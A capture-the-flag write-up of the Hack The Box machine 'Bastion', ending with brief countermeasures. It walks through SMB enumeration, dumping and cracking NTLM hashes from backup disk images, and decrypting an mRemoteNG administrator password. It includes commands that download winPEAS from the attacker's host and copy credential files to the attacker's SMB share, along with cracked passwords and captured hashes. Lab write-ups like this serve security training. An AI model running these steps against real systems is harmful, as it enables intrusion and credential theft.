

# Bastion


#### Machine Release Date: April 27, 2019

## Active Ports

```bash
$ sudo nmap -p22,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669,49670 -sC -sV -oA nmap/full-tcp-version 10.10.10.134
```

```none
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 15:51 EDT
Nmap scan report for 10.10.10.134
Host is up (0.034s latency).

PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -37m12s, deviation: 1h09m14s, median: 2m45s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-09-03T21:55:08+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-09-03T19:55:05
|_  start_date: 2020-09-03T19:51:42

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.43 seconds
```

## Enumerating for Sensitive Information

### SMB

Since the nmap scan reveled that ports 445 and 139 were open, I figured I would try my luck at finding some useful information via SMB.
When first enumerating SMB, I like to get a bird's eye view of what I can access. I used `smbmap` to enumerate all shares I had anonymous access to:

```none
$ smbmap -u junk -p junk -H 10.10.10.134
[+] Guest session       IP: 10.10.10.134:445    Name: 10.10.10.134
[-] Work[!] Unable to remove test directory at \\10.10.10.134\Backups\GRMSYHXGAL, please remove manually
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

From here, I added the `-R` flag to my `smbmap` search to recursively enumerate all shares I had access to:

```none
$ smbmap -u junk -p junk -H 10.10.10.134 -R
[+] Guest session       IP: 10.10.10.134:445    Name: 10.10.10.134
[\] Work[!] Unable to remove test directory at \\10.10.10.134\Backups\OIVWQEGNCD, please remove manually
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Backups                                                 READ, WRITE
        .\Backups\*
        dr--r--r--                0 Thu Sep  3 15:58:10 2020    .
        dr--r--r--                0 Thu Sep  3 15:58:10 2020    ..
        fw--w--w--              116 Tue Apr 16 07:43:19 2019    note.txt
        dr--r--r--                0 Thu Sep  3 15:58:10 2020    OIVWQEGNCD
        fr--r--r--                0 Fri Feb 22 07:43:28 2019    SDT65CB.tmp
        dr--r--r--                0 Fri Feb 22 07:44:02 2019    WindowsImageBackup
        .\Backups\WindowsImageBackup\*
        dr--r--r--                0 Fri Feb 22 07:44:02 2019    .
        dr--r--r--                0 Fri Feb 22 07:44:02 2019    ..
        dr--r--r--                0 Fri Feb 22 07:45:32 2019    L4mpje-PC
        .\Backups\WindowsImageBackup\L4mpje-PC\*
        dr--r--r--                0 Fri Feb 22 07:45:32 2019    .
        dr--r--r--                0 Fri Feb 22 07:45:32 2019    ..
        dr--r--r--                0 Fri Feb 22 07:45:32 2019    Backup 2019-02-22 124351
        dr--r--r--                0 Fri Feb 22 07:45:32 2019    Catalog
        fr--r--r--               16 Fri Feb 22 07:44:02 2019    MediaId
        dr--r--r--                0 Fri Feb 22 07:45:32 2019    SPPMetadataCache
        .\Backups\WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\*
        dr--r--r--                0 Fri Feb 22 07:45:32 2019    .
        dr--r--r--                0 Fri Feb 22 07:45:32 2019    ..
        fr--r--r--         37761024 Fri Feb 22 07:44:03 2019    9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
        fr--r--r--       5418299392 Fri Feb 22 07:45:32 2019    9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
        fr--r--r--             1186 Fri Feb 22 07:45:32 2019    BackupSpecs.xml
        fr--r--r--             1078 Fri Feb 22 07:45:32 2019    cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml
        fr--r--r--             8930 Fri Feb 22 07:45:32 2019    cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml
        fr--r--r--             6542 Fri Feb 22 07:45:32 2019    cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml
        fr--r--r--             2894 Fri Feb 22 07:45:32 2019    cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml
        fr--r--r--             1488 Fri Feb 22 07:45:32 2019    cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml
        fr--r--r--             1484 Fri Feb 22 07:45:32 2019    cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml
        fr--r--r--             3844 Fri Feb 22 07:45:32 2019    cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml
        fr--r--r--             3988 Fri Feb 22 07:45:32 2019    cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
        fr--r--r--             7110 Fri Feb 22 07:45:32 2019    cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
        fr--r--r--          2374620 Fri Feb 22 07:45:32 2019    cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml
        .\Backups\WindowsImageBackup\L4mpje-PC\Catalog\*
        dr--r--r--                0 Fri Feb 22 07:45:32 2019    .
        dr--r--r--                0 Fri Feb 22 07:45:32 2019    ..
        fr--r--r--             5698 Fri Feb 22 07:45:32 2019    BackupGlobalCatalog
        fr--r--r--             7440 Fri Feb 22 07:45:32 2019    GlobalCatalog
        .\Backups\WindowsImageBackup\L4mpje-PC\SPPMetadataCache\*
        dr--r--r--                0 Fri Feb 22 07:45:32 2019    .
        dr--r--r--                0 Fri Feb 22 07:45:32 2019    ..
        fr--r--r--            57848 Fri Feb 22 07:45:32 2019    {cd113385-65ff-4ea2-8ced-5630f6feca8f}
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        .\IPC$\*
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    InitShutdown
        fr--r--r--                4 Sun Dec 31 19:03:58 1600    lsass
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    ntsvcs
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    scerpc
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-2d8-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    epmapper
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-1c8-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    LSM_API_service
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    eventlog
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-380-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    atsvc
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-348-0
        fr--r--r--                4 Sun Dec 31 19:03:58 1600    wkssvc
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    winreg
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    spoolss
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-5e8-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    trkwks
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    W32TIME_ALT
        fr--r--r--                4 Sun Dec 31 19:03:58 1600    srvsvc
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    openssh-ssh-agent
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    vgauth-service
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-590-0
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-248-0
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-250-0
```

From here, the most interesting share is the `Backups` share. I personally prefer accessing shares as though they were filesystems on my local operating system, so I mounted the `Backups` share to my kali machine:

```bash
mkdir Backups
sudo mount -t cifs //10.10.10.134/Backups Backups/
```

Searching for hidden passwords in XML files after converting them from unicode to ascii yielded no results, so I copied all `.vhd` files from bastion to my kali machine:

```bash
kali@kali:~/htb/boxes/bastion/smb/Backups/WindowsImageBackup$ mkdir -p ~/htb/boxes/bastion/smb/loot
kali@kali:~/htb/boxes/bastion/smb/Backups/WindowsImageBackup$ find . -name *.vhd -exec cp {} ~/htb/boxes/bastion/smb/loot \;
```

This took a few mintues since `.vhd` files represent virtual hard disk images for Windows which can be mounted on Windows file systems.



```none
$ sudo python3 ~/tools/impacket/examples/smbserver.py r0kit . -smb2support -username r0kit -password h4ckit
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (192.168.254.131,50236)
[*] AUTHENTICATE_MESSAGE (BUILDER\r0kit,BUILDER)
[*] User BUILDER\r0kit authenticated successfully
[*] r0kit::BUILDER:4141414141414141:e59e1b79a169e0c19bcb1fcde8190c84:010100000000000000566ddb3d82d601802bfca171313f74000000000100100065005a00740068006b0043004c0077000300100065005a00740068006b0043004c007700020010006f006400710075006c0051006d007300040010006f006400710075006c0051006d0073000700080000566ddb3d82d601060004000200000008003000300000000000000001000000002000007c039a188c640ddaa7c15221fb05a5a918af5a14be58ec0e041d8ed3501415140a001000000000000000000000000000000000000900280063006900660073002f003100390032002e003100360038002e003200350034002e003100340035000000000000000000
[*] Connecting Share(1:IPC$)
[*] NetrWkstaGetInfo Level: 100
[*] NetrServerGetInfo Level: 101
[*] NetrShareEnum Level: 1
[*] Connecting Share(2:r0kit)
[*] NetrGetShareInfo Level: 1
[*] Disconnecting Share(1:IPC$)

```

At this point, I mounted the virtual hard disks on my windows machine by double clicking on the volumes and spawned a powershell console as the Administrator of my system:

```none
PS C:\Windows\system32> cd f:
PS F:\> dir


    Directory: F:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/13/2009  11:37 PM                PerfLogs
d-r---        4/11/2011  11:21 PM                Program Files
d-r---        2/22/2019   8:39 AM                Users
d-----        2/22/2019   8:40 AM                Windows
-a----        6/10/2009   6:42 PM             24 autoexec.bat
-a----        6/10/2009   6:42 PM             10 config.sys
```

Looking at the output below, I knew bastion was released April 27, 2019, therefore, I was interested in directories that where previously written to most recently.
I found nothing interesting under the `F:\Users` directory, so I searched the `F:\Windows` directory for content that was previously written to most recently.

```none
PS F:\> gci .\Windows | Sort LastWriteTime -Descending


    Directory: F:\Windows


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        2/22/2019   8:42 AM                Prefetch
    d-----        2/22/2019   8:42 AM                System32
    d-----        2/22/2019   8:42 AM                inf
    d-----        2/22/2019   8:41 AM                SoftwareDistribution
    d-----        2/22/2019   8:41 AM                Microsoft.NET
    d-r-s-        2/22/2019   8:41 AM                assembly
    -a----        2/22/2019   8:40 AM              0 WindowsUpdate.log
    d-----        2/22/2019   8:40 AM                Logs
    d-----        2/22/2019   8:39 AM                Temp
    d-----        2/22/2019   8:39 AM                Panther
    d-----        2/22/2019   8:38 AM                debug
    -a----        2/22/2019   8:38 AM          21538 setupact.log
    -a--s-        2/22/2019   8:38 AM          67584 bootstat.dat
    d-----        2/22/2019   8:38 AM                winsxs
    -a----        2/22/2019   8:37 AM           1355 TSSysprep.log
    d-----        2/22/2019   8:37 AM                CSC
    -a----        2/22/2019   8:37 AM           2790 DtcInstall.log
    d-----        4/11/2011  11:22 PM                Globalization
    d-----        4/11/2011  11:21 PM                ehome
    ... CONTENT SNIPPED ...
```

The command above lists the files and directories under the `F:\Windows` directory sorting the results by the files and directories that were most recently modified.
I repeated this listing process per each directory last modified `2/22/2019` starting from the top. I eventually found the `F:\Windows\System32\config` directory which contained the SAM and SYSTEM registry hives for the system this backup was made on. With both these registry hives, I should be able to find NTLM hashes:


```none
PS F:\Windows\System32\config> gci | Sort LastWriteTime -Descending


    Directory: F:\Windows\System32\config


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        2/22/2019   5:37 PM          28672 BCD-Template
    -a----        2/22/2019   8:43 AM       30932992 COMPONENTS
    -a----        2/22/2019   8:43 AM         262144 SECURITY
    -a----        2/22/2019   8:43 AM         262144 DEFAULT
    -a----        2/22/2019   8:43 AM       24117248 SOFTWARE
    -a----        2/22/2019   8:43 AM        9699328 SYSTEM
    -a----        2/22/2019   8:39 AM         262144 SAM
    d-----        2/22/2019   8:38 AM                TxR
    d-----        2/22/2019   8:37 AM                RegBack
    d-----       11/20/2010   4:48 PM                systemprofile
    d-----        7/13/2009  11:04 PM                Journal
```

I went ahead and transferred the `F:\Windows\System32\config\SAM` file to my kali machine.

```none
PS F:\Windows\System32\config> cp SYSTEM \\192.168.254.145\r0kit
PS F:\Windows\System32\config> cp SAM \\192.168.254.145\r0kit
```

```none
$ sudo python3 ~/tools/impacket/examples/smbserver.py r0kit shared -username r0kit -password h4ckit -smb2support
[sudo] password for kali:
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (192.168.254.131,50332)
[*] AUTHENTICATE_MESSAGE (.\r0kit,BUILDER)
[*] User BUILDER\r0kit authenticated successfully
[*] r0kit::.:4141414141414141:9d254bc84022aa24d014fee7ce8f4a55:010100000000000080fd9596d782d6019b9f83ead0cc9239000000000100100044006b006700510078006e00530058000300100044006b006700510078006e0053005800020010004200460056006e00750058006c005700040010004200460056006e00750058006c0057000700080080fd9596d782d601060004000200000008003000300000000000000000000000003000001679937746c50fb2c5f680e1b6e1795f1aa0269417cde8dc548def9a272b9e870a001000000000000000000000000000000000000900280063006900660073002f003100390032002e003100360038002e003200350034002e003100340035000000000000000000
[*] Connecting Share(1:r0kit)
[*] AUTHENTICATE_MESSAGE (\,BUILDER)
[*] Could not authenticate user!
[*] AUTHENTICATE_MESSAGE (BUILDER\r0kit,BUILDER)
[*] User BUILDER\r0kit authenticated successfully
[*] r0kit::BUILDER:4141414141414141:3571f297b3ba819760d9cf41aa304027:010100000000000000942e97d782d601977ca8dab0167a15000000000100100044006b006700510078006e00530058000300100044006b006700510078006e0053005800020010004200460056006e00750058006c005700040010004200460056006e00750058006c0057000700080000942e97d782d601060004000200000008003000300000000000000001000000002000001679937746c50fb2c5f680e1b6e1795f1aa0269417cde8dc548def9a272b9e870a001000000000000000000000000000000000000900280063006900660073002f003100390032002e003100360038002e003200350034002e003100340035000000000000000000
[*] AUTHENTICATE_MESSAGE (\,BUILDER)
[*] Could not authenticate user!
[*] Disconnecting Share(1:r0kit)
[*] Handle: 'ConnectionResetError' object is not subscriptable
[*] Closing down connection (192.168.254.131,50332)
[*] Remaining connections []
```

I then dumped the NTLM hashes from the SAM registry with `samdump2` which should be installed on the latest version on Kali Linux:

```bash
samdump2 -o ntlm-hashes.txt SYSTEM SAM
```

```none
$ cat ntlm-hashes.txt
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

At this point, I thought I would try my luck in passing `L4mpje`'s hash to WinRM to gain remote access to the bastion machine since all other hashes were disabled.

Since I had no luck in passing the hash, I figured I would try cracking it with hashcat instead since NTLM hashes require less time and memory than most other hashing algorithms to crack:

```none
PS D:\hashcat\hashcat-6.0.0> .\hashcat.exe -a 0 -m 1000 ..\hashes\bastion.ntlm ..\wordlists\rockyou.txt
hashcat (v6.0.0) starting...

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #2: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #3: Unstable OpenCL driver detected!

This OpenCL driver has been marked as likely to fail kernel compilation or to produce false negatives.
You can use --force to override this, but do not report related errors.

nvmlDeviceGetFanSpeed(): Not Supported

CUDA API (CUDA 11.0)
====================
* Device #1: GeForce GTX 1650 with Max-Q Design, 3323/4096 MB, 16MCU

OpenCL API (OpenCL 1.2 CUDA 11.0.208) - Platform #1 [NVIDIA Corporation]
========================================================================
* Device #2: GeForce GTX 1650 with Max-Q Design, skipped

OpenCL API (OpenCL 2.1 ) - Platform #2 [Intel(R) Corporation]
=============================================================
* Device #3: Intel(R) UHD Graphics 630, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 345 MB

Dictionary cache hit:
* Filename..: ..\wordlists\rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

26112010952d963c8dc4217daec986d9:bureaulampje

Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: 26112010952d963c8dc4217daec986d9
Time.Started.....: Fri Sep 04 13:50:29 2020 (1 sec)
Time.Estimated...: Fri Sep 04 13:50:30 2020 (0 secs)
Guess.Base.......: File (..\wordlists\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  7729.0 kH/s (5.83ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 9437184/14344385 (65.79%)
Rejected.........: 0/9437184 (0.00%)
Restore.Point....: 8388608/14344385 (58.48%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: ejw2ges8 -> brutus1999
Hardware.Mon.#1..: Temp: 51c Util: 48% Core:1875MHz Mem:3500MHz Bus:16

Started: Fri Sep 04 13:50:25 2020
Stopped: Fri Sep 04 13:50:31 2020
```

After compromising L4mpje's password, I was able to access all services on the host except WinRM. More importantly, I was able to log into the bastion host with SSH:

```none
$ ssh L4mpje@10.10.10.134
L4mpje@10.10.10.134's password:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

l4mpje@BASTION C:\Users\L4mpje>whoami
bastion\l4mpje
```

From here, I was able to capture the `user.txt` flag:

```none
l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt
9bfe57d5c3309db3a151772f9d86c6cd
```

## Privilege Escalation

Since the nmap scan from earlier guessed that bastion is running `Windows Server 2016` as is operating system, I figured I would try upgrading my DOS session to a PowerShell session:

```none
l4mpje@BASTION C:\Users\L4mpje\Desktop>powershell
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Users\L4mpje\Desktop>
```

At this point, user permissions didn't reveal any interesting groups or privileges, so I went ahead and ran [winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) to auto-enumerate the host for me.
However, I first needed to determine the CPU architecture since winpeas comes in both x86 and x64 versions. The following PowerShell trick will reveal the system's CPU architecture:

```none
PS C:\Windows\Temp\r0kit> $env:PROCESSOR_ARCHITECTURE
AMD64
```

The output above was sufficient to prove that the bastion host was running an x64-bit CPU architecture.

I then downloaded `winpeas.exe` from my Kali machine and executed it:

```none
PS C:\Windows\Temp\r0kit> (New-Object System.Net.WebClient).DownloadFile("http://10.10.14.24:8000/winPEAS.exe","C:\Windows\Temp\r0kit\winPEAS.exe")
```

Out of all of the information from `winpeas.exe`, I went ahead and did some research on some non-default software that was installed on the bastion host. This software was `mRemoteNG`.
I checked the `C:\Program Files (x86)\mRemoteNG\Changelog.txt` file to see how outdated the software was so I could search for security issues related to this software.

```none
PS C:\Program Files (x86)\mRemoteNG> gc .\Changelog.txt | Select -first 10
1.76.11 (2018-10-18):

Fixes:
------
#1139: Feature "Reconnect to previously opened sessions" not working
#1136: Putty window not maximized


1.76.10 (2018-10-07):
```

After doing some reasearch on Google, I realized that it was possible to decrypt passwords from the `confCons.xml` file.
I then searched for all `confCons.xml` files on the system:

```none
PS C:\Program Files (x86)\mRemoteNG> gci c:\ -rec -fo -fi "confCons.xml" -ea SilentlyContinue


    Directory: C:\Users\L4mpje\AppData\Roaming\mRemoteNG


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        22-2-2019     14:03           6316 confCons.xml
```

I then transferred `confCons.xml` to my system over SMB:

```none
PS C:\Windows\Temp\r0kit> $pass = ConvertTo-SecureString 'h4ckit' -AsPlainText -Force
PS C:\Windows\Temp\r0kit> $cred = New-Object System.Management.Automation.PSCredential('r0kit', $pass)
PS C:\Windows\Temp\r0kit> New-PSDrive -Name r -PSProvider FileSystem -Root \\10.10.14.24\r0kit -Credential $cred

Name           Used (GB)     Free (GB) Provider      Root                                                       CurrentLocation
----           ---------     --------- --------      ----                                                       ---------------
r                                      FileSystem    \\10.10.14.24\r0kit


PS C:\Windows\Temp\r0kit> cp "C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml" r:\
```

```none
$ sudo python3 ~/tools/impacket/examples/smbserver.py r0kit shared/ -smb2support -username r0kit -password h4ckit
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.134,49691)
[*] AUTHENTICATE_MESSAGE (\r0kit,BASTION)
[*] User BASTION\r0kit authenticated successfully
[*] r0kit:::4141414141414141:84f63cab71dcc2881f947bbc1ba8de51:0101000000000000003fe94ded82d601655f43d57db963ea0000000001001000500070006b006a00780056006500570003001000500070006b006a0078005600650057000200100066007400770049004400700075006f000400100066007400770049004400700075006f0007000800003fe94ded82d601060004000200000008003000300000000000000000000000002000007fa749fd1eecd4505ad0927cc1f7896c47f74caf035b345bf1b146ab717cd7320a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0032003400000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:r0kit)
[*] Disconnecting Share(1:IPC$)
```

Initially, I found a metasploit post exploitation module that would extract the encrypted passwords from the `confCons.xml` file. Unfortunately, metasploit post exploitation modules require an active shell or meterpreter session within metasploit to run. Since the bastion's operating system was running `Windows Server 2016`, it was actively running Windows Defender as the `MsMpEng` process which killed any meterpreter or metasploit shell sessions running in memory.

On this note, I did some more reasearch and managed to run the the [following script](https://github.com/haseebT/mRemoteNG-Decrypt/raw/master/mremoteng_decrypt.py) to decrypt the encrypted passwords.

After downloading the script from GitHub, I was needed to install [pycryptodome](https://pypi.org/project/pycryptodome/), which is popular cryptography library written in Python.

```none
kali@kali:~/htb/boxes/bastion/privesc/loot$ python3 -m pip install pycryptodome
Defaulting to user installation because normal site-packages is not writeable
Collecting pycryptodome
  Downloading pycryptodome-3.9.8-cp38-cp38-manylinux1_x86_64.whl (13.7 MB)
     |████████████████████████████████| 13.7 MB 4.2 MB/s
Installing collected packages: pycryptodome
Successfully installed pycryptodome-3.9.8
```

Next, I extracted the Administrator's password from `confCons.xml`:

```none
grep --color -iE 'Password="([[:alnum:]]|=|/)+"' confCons.xml
... CONTENT SNIPPED ...
Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
Password="yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB"
... CONTENT SNIPPED ...
```

The first encrypted password was the Administrator's password, so I decrypted it with the python script:

```none
kali@kali:~/htb/boxes/bastion/privesc/loot$ python3 mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
Password: thXLHM96BeKL0ER2
```

After compromising the Administrator's password, I was able to use it to log into the bastion host, fully compromising the system:

```none
kali@kali:~/htb/boxes/bastion/privesc/loot$ ssh administrator@10.10.10.134
administrator@10.10.10.134's password:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

administrator@BASTION C:\Users\Administrator>whoami
bastion\administrator

administrator@BASTION C:\Users\Administrator>cd Desktop

administrator@BASTION C:\Users\Administrator\Desktop>type root.txt
958850b91811676ed6620a9c430e65c8
```

## Countermeasures

* Don't store sensitive information like virtual hard disks on SMB shares that anonymous users can access.
* Keep all third-party software updated on your systems (especially software that manages user credentials such as usernames and passwords). 
* Uninstall all software that you don't use from your systems.
